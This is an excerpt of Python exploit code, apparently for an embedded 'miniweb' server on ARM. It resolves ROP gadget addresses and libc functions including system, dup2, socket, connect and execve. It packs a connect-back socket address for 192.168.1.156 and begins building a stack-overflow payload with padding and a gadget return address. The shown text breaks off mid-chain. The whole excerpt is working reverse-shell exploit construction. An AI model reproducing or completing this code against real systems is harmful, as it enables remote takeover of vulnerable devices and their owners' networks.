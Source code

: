 ```python
    
    if args.command == "miniweb":

        variables = {
            "g_pop_r4": g_pop_r4_ea,
            "g_mov_r0_r4": g_mov_r0_r4_ea,
            "g_ldr_r0_r4": g_ldr_r0_r4_ea,
            "g_mov_r0_0": g_mov_r0_0_ea,
            "g_pop_r1": g_pop_r1_ea,
            "g_add_r0_2": g_add_r0_2_ea,
            "g_add_r1_1": g_add_r1_1_ea,
            "g_add_r1_1_with_cmp": g_add_r1_1_with_cmp_ea,
            "g_mov_r1_0": g_mov_r1_0_ea,
            "g_add_r1_1_with_r0_cmp": g_add_r1_1_with_r0_cmp_ea,
            "g_mov_r2_0": g_mov_r2_0_ea,
            "g_str_r0_r4": g_str_r0_r4_ea,
            "g_pop_r1_r2_r3": g_pop_r1_r2_r3_ea,
            "g_pop_r3": g_pop_r3_ea,
            "g_add_r2_1": g_add_r2_1_ea,
            "g_strb_r0_r4": g_strb_r0_r4_ea
        }

        print('[gadgets]')
        for name, virt_addr in variables.items():
            print(f"{name} = {hex(virt_addr)} ({hex(virt_addr - base_address)})")

        print('[variables]')
        print('@dummy = ', hex(stack_dummy_ea))
        print('@csock = ', hex(stack_csock_ea))
        print('@sin =   ', hex(stack_sin_ea))
    

        print('[funcs]')
        print('@system = ', hex(system_ea))
        print('@binsh =  ', hex(binsh_ea))
        print('@dup2 =   ', hex(dup2_ea))
        print('@socket = ', hex(socket_ea))
        print('@connect =', hex(connect_ea))
        print('@exit =   ', hex(exit_ea))
        print('@execve = ', hex(execve_stub_ea))
        

        sin_family = 0xff02 
        sin_port = socket.htons(args.listen) 
        sin_addr = socket.inet_aton("192.168.1.156")
        sin_zero = b'\x01' * 8

        sin = struct.pack('<HH', sin_family, sin_port) + sin_addr + sin_zero
        print(sin)

        local_off = 299 
        remote_off = 172
        data_size = 48
        offset = remote_off - (data_size)
        payload = b'A' * offset # 173

        # data area
        payload += b'x' * 0x10
        payload += sin
        payload += b'x' * 16

        # reached @ret
        payload += p32(g_mov_r1_0_ea) # also set r0 to 0
```
